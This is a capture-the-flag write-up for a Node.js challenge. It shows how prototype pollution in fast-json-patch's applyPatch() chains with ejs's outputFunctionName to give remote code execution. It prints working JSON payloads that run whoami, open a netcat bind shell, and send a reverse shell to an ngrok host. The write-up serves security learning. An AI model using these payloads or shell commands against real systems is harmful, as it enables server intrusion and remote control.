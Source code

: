```yaml
---
description: JavaScript Prototype Injection
---
```


# Illusion

## Problem

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will deactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behaviour.

{% file src="../../.gitbook/assets/illusion.tar.gz" %}
Illusion
{% endfile %}

## Solution

First, let's analyse the source code.

Here, we see that for testing locally, we should use `admin:admin` as the basic authentication credentials.

```javascript
app.use(basicAuth({
    users: { "admin": process.env.SECRET || "admin" },
    challenge: true
}))
```

We come across an interesting functionality of the app. When POST-ing JSON to the `/change_status` endpoint, the [fast-json-patch](https://www.npmjs.com/package/fast-json-patch) package is used to modify the `services` object.

```javascript
const jsonpatch = require('fast-json-patch')

...

// API
app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    console.log(Object.values(services))
    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```

A quick search led me to this GitHub pull request: [ https://github.com/Starcounter-Jack/JSON-Patch/pull/262](https://github.com/Starcounter-Jack/JSON-Patch/pull/262). A prototype pollution vulnerability exists in `applyPatch()`.

It appears that the issue is not yet fixed, even in the latest version!

For instance, if we POST the following data:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
}
```

Every object will now have the `offline` attribute. The following if statment will then evaluate to True, since the `Array` object will have an `offline` attribute as well.

```javascript
if ("offline" in Object.values(services)){
    services.status = "offline"
}
```

But we can't really do much with this... yet. When there is a prototype injection vulnerability in server-side code, it can usually lead to serious exploits like RCE.

In this case, we can achieve RCE through exploiting the `ejs` module, by leveraging the `constructor/prototype/outputFunctionName` option in the `ejs` rendering function. This is quite a well known exploit: [https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks](https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks)

For how to exploit it, here's a neat reference: [https://blog.p6.is/Real-World-JS-1/](https://blog.p6.is/Real-World-JS-1/)

We can see that `ejs` is used. It is a very popular library for templating in web applications.

```javascript
const ejs = require('ejs')

...

app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
```

Testing locally as a normal user first (the actual challenge uses a guest user), we can POST the following data to test that RCE exists:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('whoami >> src/static/style.css');x"
}
```

This executes `whoami >> src/static/style.css`. We can see that in the `style.css`, the output is indeed reflected.

![](../../.gitbook/assets/4f7c707532584a42a7f9976744fdfc56.png)

Then I ran the docker image. Note that we are provided with a `readflag` binary. We can run this binary and obtain the flag from the output.

Since we're a guest user, we don't have permissions to write the output to a readable file. We can try to use a bind shell instead. The following will execute `nc -lvp 4444 -e /bin/sh`, opening up a bind shell on port 4444. 

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc -lvp 4444 -e /bin/sh');x"
}
```

When we connect to the bind shell, we can then run the `readflag` binary.

![](../../.gitbook/assets/4a7887f7a3cf414983b2a57bfbf15f3c.png)

Time to connect to the real server!

![](../../.gitbook/assets/01258025ec1e4e4594f359bde6278b1d.png)

The bind shell didn't work, so we had to use a reverse shell instead.

First, I set up a `ngrok` TCP forwarder. Then, in our RCE payload, we can use the public endpoint given by `ngrok` to catch our reverse shell. To trigger a reverse shell, we would need to modify our RCE:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc 8.tcp.ngrok.io 17160 -e /bin/sh');x"
}
```

This should forward the reverse shell to our local machine, and we get the flag!

![](../../.gitbook/assets/c314f1e63edd4cb9acfb5204153a17b3.png)
